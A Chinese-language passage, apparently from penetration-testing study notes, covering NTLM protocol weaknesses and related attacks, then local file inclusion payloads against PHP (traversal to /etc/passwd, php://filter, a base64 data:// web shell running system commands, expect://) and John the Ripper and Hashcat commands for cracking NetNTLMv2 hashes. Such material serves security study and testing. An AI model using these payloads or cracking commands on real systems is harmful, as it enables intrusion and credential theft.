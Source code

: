 ### 1.2 知识扩展与深度技术分析

#### 1.2.1 NTLM安全性问题深度分析

**NTLM协议的固有缺陷**：

1. **无服务器认证**：客户端无法验证服务器真实性
2. **挑战重放攻击**：NetNTLMv2响应可被重放
3. **离线破解**：弱密码容易通过暴力破解攻破

**实际渗透中的利用场景**：

- SMB中继攻击（NTLM Relay）
- Pass-the-Hash攻击
- Kerberos黄金票据/白银票据

#### 1.2.2 文件包含漏洞的进阶利用

**PHP包装器利用技巧**：

```php
// 基础LFI
?page=../../../../etc/passwd

// PHP过滤器利用
?page=php://filter/convert.base64-encode/resource=index.php

// 数据包装器执行代码
?page=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=

// EXPECT包装器（需allow_url_include=On）
?page=expect://whoami
```

#### 1.2.3 哈希破解优化策略

**John the Ripper高级用法**：

```bash
# 使用指定格式破解
john --format=netntlmv2 hash.txt

# 使用规则增强的单词表
john --rules --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

# 分布式破解
john --node=1-4/8 hash.txt  # 使用8个节点中的1-4节点
```

**Hashcat加速破解**：

```bash
hashcat -m 5600 hash.txt /usr/share/wordlists/rockyou.txt
```

## 2. 复现模块
